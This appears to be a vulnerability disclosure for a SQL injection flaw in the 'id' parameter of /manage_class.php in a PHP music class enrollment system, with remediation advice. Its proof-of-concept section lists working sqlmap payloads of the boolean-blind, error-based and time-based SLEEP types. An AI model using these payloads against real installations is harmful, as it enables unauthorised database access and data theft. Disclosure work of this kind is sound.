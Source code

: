 # A SQL injection vulnerability exists in Music Course Registration system project V1.0 /manage_class.php

## Vulnerability author:
wanglun

## NAME OF AFFECTED PRODUCT
PHP music course registration system project

## Vendor Homepage
https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

## VERSION: 
1.0
## Software Link
https://www.sourcecodester.com/download-code?nid=15362&title=Music+Class+Enrollment+System+in+PHP%2FOOP+Free+Source+Code

## Vulnerable File
/manage_class.php

# PROBLEM TYPE
## Vulnerability Type
SQL injection

## Root Cause
An SQL injection vulnerability was found in the /manage_class.php file of the Music Course Registration System project. The cause of the problem is that the attacker injects malicious code from the parameter "id" and uses it directly in the SQL query without proper cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized actions.

## Impact
Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION
During the security review of the Music Course Registration System, I discovered a serious SQL injection vulnerability in the file "/manage_class.php". This vulnerability stems from inadequate validation of user input for the 'id' parameter, allowing an attacker to inject malicious SQL queries. As a result, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial action is needed to ensure system security and protect data integrity.

# Vulnerability details and POC
## Vulnerability lonameion:
'id' parameter

## Payload:
http://localhost:80/mces/admin/?page=classes/manage_class&id=4' AND (SELECT 8993 FROM (SELECT(SLEEP(5)))FvcJ) AND 'eYKe'='eYKe
---
Parameter: id (GET)

     Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=classes/manage_class&id=4' AND 4411=4411 AND 'coQB'='coQB

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=classes/manage_class&id=4' AND (SELECT 1734 FROM(SELECT COUNT(*),CONCAT(0x7178626a71,(SELECT (ELT(1734=1734,1))),0x7170787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'ajTx'='ajTx

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=classes/manage_class&id=4' AND (SELECT 8993 FROM (SELECT(SLEEP(5)))FvcJ) AND 'eYKe'='eYKe
---

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

Payload: 
http://localhost:80/mces/admin/?page=classes/manage_class&id=4' AND (SELECT 8993 FROM (SELECT(SLEEP(5)))FvcJ) AND 'eYKe'='eYKe

![image](https://github.com/user-attachments/assets/99f448cc-ba5f-4f51-bc99-2b41d5389e81)
![image](https://github.com/user-attachments/assets/6b6dcff1-b3c8-4a0f-9b0b-9637922b946d)



# Suggested repair
1.Use prepared statements and parameter binding:
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2.Input validation and filtering:
Strictly validate and filter user input data to ensure it conforms to the expected format.

3.Minimize database user permissions:
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4.Regular security audits:
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

